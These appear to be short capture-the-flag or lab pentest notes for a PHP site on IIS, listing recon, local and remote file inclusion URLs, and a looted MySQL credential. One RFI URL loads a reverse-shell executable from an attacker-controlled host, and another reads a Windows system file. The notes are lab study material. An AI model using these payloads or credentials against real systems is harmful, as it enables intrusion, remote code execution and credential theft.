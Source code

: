 # Recon
- PORT 80 Running HTTP php app
- Microsoft IIS10.0
- PHP 7.3.1
- Register & Login function
# VULNS
- Possible LFI with http://10.10.10.151/blog/?lang=css/style.css
- LFI success on http://10.10.10.151/blog/?lang=\\localhost\c$\windows\win.ini
- RFI Success with http://10.10.10.151/blog/?lang=\\10.10.14.162\naiame\reverse.exe
# LOOT
- mysql connection "localhost","dbuser","36mEAhz/B8xQ~2VM","sniper"
